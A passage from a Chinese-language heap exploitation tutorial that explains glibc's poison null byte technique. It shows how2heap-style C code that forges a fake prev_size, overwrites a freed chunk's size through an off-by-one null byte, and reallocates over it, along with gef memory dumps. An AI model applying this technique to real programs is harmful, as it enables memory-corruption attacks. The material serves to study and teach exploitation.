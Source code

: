 为chunk_c写入fake_prev_size，即chunk_b+0x1f0的位置。至于写在这里有什么目的，我们接着往下看。

```
//*(size_t*)(b+0x1f0) = 0x200;
    fprintf(stderr, "In newer versions of glibc we will need to have our updated size inside b itself to pass "
        "the check 'chunksize(P) != prev_size (next_chunk(P))'n");
    // we set this location to 0x200 since 0x200 == (0x211 &amp; 0xff00)
    // which is the value of b.size after its first byte has been overwritten with a NULL byte
    *(size_t*)(b+0x1f0) = 0x200;
```

****Off by one****(a[real_a_size] = 0),将chunk_b(free)的size值替换，原size值的构成为`(0x200 + 0x10) | prev_in_use`,但是此处将pre inuse改为0，结果为`(0x200) | prev_in_use=0`，这符合Off by one写入一个0字节后的效果。

好，此时观察chunk_b,读者应该就明白之前为什么要写入fake_prev_size，因为chunk_b的长度变短了，fake_pre_size的位置正好位于变短的chunk_b的pre_size位（严格意义上是chunk_c的pre size位，但是这个chunk_c并不存在）。即注释中的绕过`chunksize(P) == == prev_size (next_chunk(P)`的check。

当然，所有操作之前，必须先free chunk_b，因为只有free chunk才需要pre size位，malloc_chunk的pre size位是data的一部分。

```
// this technique works by overwriting the size metadata of a free chunk
    free(b);

    fprintf(stderr, "b.size: %#lxn", *b_size_ptr);
    fprintf(stderr, "b.size is: (0x200 + 0x10) | prev_in_usen");
    fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'n");
    a[real_a_size] = 0; // &lt;--- THIS IS THE "EXPLOITED BUG"
    fprintf(stderr, "b.size: %#lxn", *b_size_ptr);
fprintf(stderr, "We will pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))n",
        *((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
```

```
gef➤  x/150xg 0x603000
0x603000:    0x0000000000000000    0x0000000000000111
0x603010:    0x0000000000000000    0x0000000000000000 &lt;--chunk_a
0x603020:    0x0000000000000000    0x0000000000000000
...
0x603100:    0x0000000000000000    0x0000000000000000
0x603110:    0x0000000000000000    0x0000000000000200 &lt;--size(off by one)[(0x200)|prev_in_use=0]
0x603120:    0x00007ffff7dd1b78    0x00007ffff7dd1b78 &lt;--chunk_b(free)
0x603130:    0x0000000000000000    0x0000000000000000
0x603140:    0x0000000000000000    0x0000000000000000
...
0x603300:    0x0000000000000000    0x0000000000000000
0x603310:    0x0000000000000200    0x0000000000000000 &lt;-- fake pre_size
0x603320:    0x0000000000000210    0x0000000000000111 &lt;-- real pre_size
0x603330:    0x0000000000000000    0x0000000000000000 &lt;--chunk_c
```

申请b1，会占位之前chunk_b的空间。

```
b1 = malloc(0x100);
    fprintf(stderr, "b1: %pn",b1);
    fprintf(stderr, "Now we malloc 'b1'. It will be placed where 'b' was. "
```
